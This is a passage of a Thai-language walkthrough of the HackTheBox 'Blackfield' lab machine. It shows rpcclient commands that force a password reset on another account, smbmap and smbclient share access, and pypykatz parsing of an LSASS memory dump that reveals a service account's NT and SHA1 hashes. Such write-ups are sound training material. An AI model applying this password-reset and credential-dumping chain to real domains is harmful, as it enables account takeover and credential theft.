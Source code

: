 ![[Challenge/HTB Challenge/Blackfield/IMG/003.png]]


```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U support //10.10.10.192
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

## รหัสผ่านง่ายไป ติด Password policy
rpcclient $> setuserinfo2 audit2020 23 'password'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION

rpcclient $> setuserinfo2 audit2020 23 'P@ssw0rd@@@'
rpcclient $> 

```

![[Challenge/HTB Challenge/Blackfield/IMG/004.png]]

ตรวจสอบสิทธิด้วย smbmap จะเห็นว่า audit2020 สามารถเข้าถึงไฟล์ forensic ได้แล้ว
```bash
smbmap -H 10.10.10.192 -u audit2020 -p 'P@ssw0rd@@@'
```
![[Challenge/HTB Challenge/Blackfield/IMG/005.png]]
ภาพด้านบนเป็นของ audit2020 และภาพด้านล่างเป็นของ support จะเห็นได้ว่าสิทธิการเข้าถึงแตกต่างกัน
![[Challenge/HTB Challenge/Blackfield/IMG/006.png]]

จากนั้นทดสอบเข้าไปยัง forensic ด้วย user: audit2020
```bash
smbclient  -N //10.10.10.192/forensic -U audit2020@blackfield.local --password=P@ssw0rd@@@
```

ภายใต้ folder memory_analysis มีข้อมูลของ lsass อยู่ให้ทำการแตกไฟล์ zip แล้วเปิดด้วย mimikatz บน linux ด้วย pypykatz 

```bash
pipx install pypykatz
pypykatz lsa minidump lsass.DMP


INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
```